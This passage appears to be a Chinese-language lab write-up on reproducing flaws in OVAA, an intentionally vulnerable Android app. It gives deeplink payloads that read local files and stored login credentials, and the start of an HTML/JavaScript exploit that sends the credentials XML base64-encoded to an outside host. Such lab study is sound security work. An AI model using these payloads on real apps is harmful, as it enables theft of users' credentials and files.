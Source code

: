 然后通过该deeplink读取创建的文件：`oversecured://ovaa/webview?url=file://example.com/data/local/tmp/secret`，成功读取。

![](OVAA复现/image-20240608214623477.png)

还可以读取登录的账号密码存储的xml：

`oversecured://ovaa/webview?url=file://example.com/data/data/oversecured.ovaa/shared_prefs/login_data.xml`

![](OVAA复现/image-20240608214757820.png)

## 利用XML请求任意读取文件

> Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.

与上一节类似，可通过`oversecured://ovaa/webview?url=http://evilexample.com`，只是这次可利用XHR将获取的内容给到攻击者服务器。

创建html，将其放在`/data/local/tmp/test.html`。

其会去访问`file://example.com/data/data/oversecured.ovaa/shared_prefs/login_data.xml`，然后将内容经过base64编码后发送给本地9999端口。

```html
<html>
    <body>
        <p>Test1</p>
        <script type="text/javascript">
            var url = "file://example.com/data/data/oversecured.ovaa/shared_prefs/login_data.xml"
            function load(url) {    
                var xhr = new XMLHttpRequest();
                xhr.onreadystatechange = function() {
                    if (xhr.readyState === 4) {
                        location.href = "http://192.168.244.107:9999/?exfiltrated=" + btoa(xhr.responseText);
                    }
                }
```